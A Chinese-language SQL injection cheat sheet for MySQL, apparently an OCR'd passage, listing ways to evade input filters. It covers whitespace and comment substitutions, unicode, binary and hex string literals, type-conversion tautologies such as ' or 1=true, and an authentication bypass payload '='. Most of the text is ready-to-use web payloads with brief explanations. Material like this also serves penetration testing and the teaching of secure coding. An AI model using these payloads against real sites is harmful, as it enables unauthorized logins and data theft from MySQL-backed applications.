 空格替换：`%20, %09, %0a, %0b, %0c, %0d, %a0`

也可以插入括号，前缀，操作符，引号

```
'or+(1)sounds/**/like"1"--%a0-

```

字符串格式

```
    ' or "a"='a'
    ' or 'a'=n'a'               //unicode
    ' or 'a'=b'1100001'         //binary
    ' or 'a'=_binary'1100001'   //5.5.41下测试无效
    ' or 'a'=x'61'              //16进制

```

**2、MySQL常用的一些小工具**

常量：`true， false， null， \N, current_timestamp....`

变量：`@myvar:=1`

系统变量：`@@version, @@datadir....`

常用函数：`version(), pi(), pow(), char(), substring()....`

**3、MySQL类型转换**

```
' or 1=true #true=1, false=0
' or 1 #true
' or version()=5.5 #5.5.41-log

' or round(pi(),1)+true+true+0.4=version() #3.1+1+1+0.4

select * from users where 'a'='b'='c'
select * from users where ('a'='b')='c'
select * from users where (false)='c'
select * from users where (0)='c'
select * from users where (0)=0
select * from users where true
select * from users

```

以上的语句都是同样的效果

**4、认证绕过**

绕过语句：`'='`

```
select data from users where name="="
select data from users where flase=" 
select data from users where 0=0

```
